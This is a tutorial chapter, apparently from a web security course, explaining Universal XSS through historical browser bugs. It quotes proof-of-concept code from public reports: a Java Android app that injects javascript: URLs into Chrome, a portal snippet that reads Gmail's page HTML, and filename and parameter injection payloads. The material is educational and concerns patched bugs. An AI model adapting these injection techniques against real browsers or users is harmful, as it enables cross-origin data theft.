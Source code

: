 ```yaml
---
sidebar_position: 12
---
```


# The Most Powerful XSS: Universal XSS

All the XSS vulnerabilities we mentioned earlier are mostly caused by negligence on the part of the website itself, allowing attackers to execute JavaScript code on the website.

However, there is another type of XSS that is even more powerful, as the title suggests: Universal XSS.

The reason is simple: this type of XSS attack targets not the website itself, but the browser or built-in plugins.

Since it is a vulnerability in the browser, the website itself does not need to have any issues. Even a purely static webpage can be vulnerable to XSS. By attacking the browser, the impact achieved is "the ability to execute code on any website." Therefore, this type of attack is called Universal XSS, or UXSS for short.

So how are UXSS vulnerabilities created? Let's look at a few examples.

## Firefox's Adobe Acrobat Plugin in 2006

In a paper titled [Subverting Ajax](https://fahrplan.events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf), a UXSS targeting Firefox is described.

The Adobe Acrobat plugin on Firefox had a vulnerability where it did not properly check parameters. By loading a PDF and appending the parameter `#FDF=javascript:alert(1)` to the URL, XSS could be executed within that PDF.

For example, `https://example.com/test.pdf#FDF=javascript:alert(1)`. Simply loading this URL would execute JavaScript code on the origin `https://example.com`, which is known as UXSS.

Although the original paper did not provide detailed information, I assume the underlying principle is that the plugin uses the value passed by the `FDF` parameter to execute functions like `window.open`, allowing the execution of code using the `javascript:` pseudo-protocol.

## Android Chrome's UXSS in 2012

In 2012, Takeshi reported a vulnerability: [Issue 144813: Security: UXSS via com.android.browser.application_id Intent extra](https://bugs.chromium.org/p/chromium/issues/detail?id=144813).

In the world of Android, there is something called an "intent," which represents an "intention." For example, if you want to open a new screen, you send an intent saying "I want to open a new screen."

If you want to open Chrome and browse a specific page, you can write corresponding code based on this intention:

``` java
// Declare a new intent
Intent intent = new Intent("android.intent.action.VIEW");

// The intent is for Chrome app
intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");

// Set the URL
intent.setData(Uri.parse("https://example.com"));

// Send the intent
startActivity(intent);
```

In 2012, someone discovered that by first opening `https://example.com` and then opening `javascript:alert(1)`, code could be executed on the `https://example.com` URL, resulting in a UXSS vulnerability.

The complete code looks like this (code from the original report):

``` java
package jp.mbsd.terada.attackchrome1;

import android.app.Activity;
import android.os.Bundle;
import android.content.Intent;
import android.net.Uri;

public class Main extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        doit();
    }

    public void doit() {
        try {
            // Firstly, force chrome app to open a target Web page
            Intent intent1 = getIntentForChrome("http://www.google.com/1");
            startActivity(intent1);

            // Wait a few seconds
            Thread.sleep(5000);

            // JS code to inject into the target (www.google.com)
            String jsURL = "javascript:alert('domain='+document.domain)";

            Intent intent2 = getIntentForChrome(jsURL);

            // Need a trick to prevent Chrome from loading the new URL in a new tab
            intent2.putExtra("com.android.browser.application_id", "com.android.chrome");

            startActivity(intent2);
        }
        catch (Exception e) {}
    }

    // Get intent to invoke chrome app
    public Intent getIntentForChrome(String url) {
        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");
        intent.setData(Uri.parse(url));
        return intent;
    }
}
```

## Chromium's UXSS via portal in 2019

In 2019, Michał Bentkowski reported a vulnerability: [Issue 962500: Security: Same Origin Policy bypass and local file disclosure via portal element](https://bugs.chromium.org/p/chromium/issues/detail?id=962500&q=sop%20bypass&can=1). This UXSS was executed through the latest feature `<portal>`.

The cause of this vulnerability is similar to the Android case mentioned earlier. Here is an example code snippet (from the original report):

``` js
const p = document.createElement('portal');
p.src = 'https://mail.google.com';
// after a while:
p.src = 'javascript:portalHost.postMessage(document.documentElement.outerHTML,"*")';
// the code above will get executed in the context of https://mail.google.com
```

When you load a URL inside a portal and then load `javascript:`, it will execute JavaScript on the origin of the previously loaded URL. In other words, you can execute JavaScript on any URL, making it a UXSS. This vulnerability was rewarded with a $10,000 bounty.

## Chromium's UXSS triggered by downloading images in 2021

When you right-click on an image in Chromium and choose to download it, Chromium dynamically executes a piece of JavaScript code in the background. It calls internal JavaScript functions, like this:

``` js
__gCrWeb.imageFetch.getImageData(id, '%s')
```

Here, `%s` is the filename of the image. However, this filename was not properly filtered, so if the filename is `'+alert(1)+'`, the code will become:

``` js
__gCrWeb.imageFetch.getImageData(id, ''+alert(1)+'')
```

This will execute `alert(1)`. Of course, you can replace it with any code. `alert(1)` is just an example.

In addition, if there is a domain A that embeds domain B using an iframe, when you download an image on domain B, this dynamically generated JavaScript code will be executed in the top-level window, which is the domain A's window.

In other words, by exploiting this vulnerability, if I can embed my attack URL in another domain using an iframe, I can execute arbitrary code on that domain, resulting in UXSS.

The original report and PoC can be found in the report by Muneaki Nishimura: [Issue 1164846: Security: ImageFetchTabHelper::GetImageDataByJs allows child frames to inject scripts into parent (UXSS)](https://bugs.chromium.org/p/chromium/issues/detail?id=1164846)

## Multiple UXSS in Brave Browser iOS App

Brave is a privacy-focused browser based on Chromium, founded by Brendan Eich, the creator of JavaScript. The iOS app of Brave has been found to have multiple UXSS vulnerabilities by Japanese security researcher Muneaki Nishimura (he also reported the UXSS in Chromium mentioned above).

The cause of these vulnerabilities is similar to what was mentioned earlier. It is due to the app dynamically executing JavaScript code without properly filtering the input, resulting in the generation of UXSS.

For example, there might be a piece of code like this:

``` swift
self.tab?.webview?.evaluateJavaScript("u2f.postLowLevelRegister(\(requestId), \(true), '\(version)')")
```

And we can control the `version` variable. At the same time, this script is executed at the top level, allowing sub frames to attack the parent and perform XSS on other origins.

For more details, refer to Muneaki Nishimura's presentation: [Brave Browserの脆弱性を見つけた話（iOS編）](https://speakerdeck.com/nishimunea/brave-browsernocui-ruo-xing-wojian-tuketahua-iosbian)

## Conclusion

UXSS vulnerabilities like these are usually beyond the control of websites because the vulnerability lies in the browser itself, not the website.

For browsers, this is actually a significant vulnerability. Just think about it, if an attacker successfully exploits UXSS, they can read your Gmail, read your Facebook messages, and take away all your data. It is a very frightening situation.

As users, all we can do is keep our browsers updated to the latest version and hope that vendors promptly fix these vulnerabilities.

